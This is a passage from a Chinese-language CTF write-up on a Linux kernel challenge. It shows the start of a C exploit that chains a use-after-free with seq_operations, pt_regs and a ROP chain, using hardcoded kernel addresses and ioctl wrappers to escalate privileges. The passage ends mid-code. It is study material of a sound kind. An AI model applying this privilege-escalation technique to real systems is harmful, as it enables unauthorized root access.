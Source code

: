### 解法：UAF + seq_operations + pt_regs + ROP

題目沒有說明，那筆者默認應該是沒開 Hardened Freelist，現在又有 UAF，那麼解法就是多種多樣的了，筆者這裏選擇用 `seq_operations` + `pt_regs` 構造 ROP 進行提權：

exp 如下：

```c
#include <fcntl.h>
#include <stddef.h>

#define COMMIT_CREDS 0xffffffff810c8d40
#define SEQ_OPS_0 0xffffffff81319d30
#define INIT_CRED 0xffffffff82663300
#define POP_RDI_RET 0xffffffff81089250
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81c00f30

long dev_fd;

struct op_chunk
{
    size_t  idx;
    size_t  size;
    void    *buf;
};

struct alloc_chunk
{
    size_t  size;
    void    *buf;
};

void readChunk(size_t idx, size_t size, void *buf)
{
    struct op_chunk op = 
    {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x40, &op);
}

void writeChunk(size_t idx, size_t size, void *buf)
{
    struct op_chunk op = 
    {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x50, &op);
}

void deleteChunk(size_t idx)
{
    struct op_chunk op = 
    {
        .idx = idx,
    };
    ioctl(dev_fd, 0x30, &op);
}

void allocChunk(size_t size, void *buf)
```
